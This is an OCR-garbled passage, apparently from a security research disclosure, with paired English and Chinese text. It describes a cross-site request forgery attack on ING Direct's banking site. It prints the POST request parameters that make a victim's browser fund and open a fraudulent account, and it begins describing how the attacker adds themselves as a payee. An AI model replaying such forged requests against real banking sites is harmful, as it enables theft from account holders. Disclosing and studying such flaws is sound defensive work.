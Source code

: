 >  • A POST request to https://secure.
ingdirect.com/myaccount/ INGDirect.html with the parameters:

```
command=ocaValidateFunding&PRIMARY CARD=true&JOINTCARD=true&Account Nickname=[ACCOUNT NAME]&FROMACCT= 0&TAMT=[INITIAL AMOUNT]&YES, I WANT TO CONTINUE..x=44&YES, I
                 WANT TO
                 CONTINUE..y=25&XTYPE=4000USD
                 &XBCRCD=USD
. . . where [ACCOUNT NAME] is the name of the account that the user will see and [INITIAL AMOUNT] is the amount of money that will be transferred to the new account when it is opened. The account name can be any string and does not need to be known by the attacker before hand–it is simply a nickname that will be used for the new account.
```
```
(c)攻击者选择资金的仲裁金额，最初从用户的储蓄账户转移到新的欺诈账户：
• 一个POST请求发送到 https://secure.
ingdirect.com/myaccount/ INGDirect.html带有以下参数

    
                 command=ocaValidateFunding&PRIMARY CARD=true&JOINTCARD=true&Account Nickname=[ACCOUNT NAME]&FROMACCT= 0&TAMT=[INITIAL AMOUNT]&YES, I WANT TO CONTINUE..x=44&YES, I
                 WANT TO
                 CONTINUE..y=25&XTYPE=4000USD
                 &XBCRCD=USD

                ……其中[帐户名]是用户将看到的帐户的名称，[INITIAL AMOUNT]是打开时将转移到新帐户的金额。 帐户名称可以是任何字符串，攻击者无需事先知道它 - 它只是一个将用于新帐户的昵称。

```

>(d) The attacker causes the user’s browser to click the final “Open Account” button, causing ING to open a new checking account on behalf of the user:
• A POST request to https://secure. ingdirect.com/myaccount/ INGDirect.html with the parame- ters:

```
                 command=ocaOpenAccount&Agree   ElectronicDisclosure=yes&AgreeTerms
                 Conditions=yes&YES, I WANT TO
                 CONTINUE..x=44&YES, I WANT TO
                 CONTINUE..y=25&YES, I WANT TO
                 CONTINUE.=Submit
```


```
(d)攻击者使用户浏览器点击最后的“开通账户”按钮，使ING代表用户开设一个新的支票：
    • 一个POST请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html带有以下参数：
                 command=ocaOpenAccount&Agree
                 ElectronicDisclosure=yes&AgreeTerms
                 Conditions=yes&YES, I WANT TO
                 CONTINUE..x=44&YES, I WANT TO
                 CONTINUE..y=25&YES, I WANT TO
                 CONTINUE.=Submit


```
>2. The attacker adds himself as a payee to the user’s account.
(a) The attacker causes the user’s browser to visit ING’s “Add Person” page:
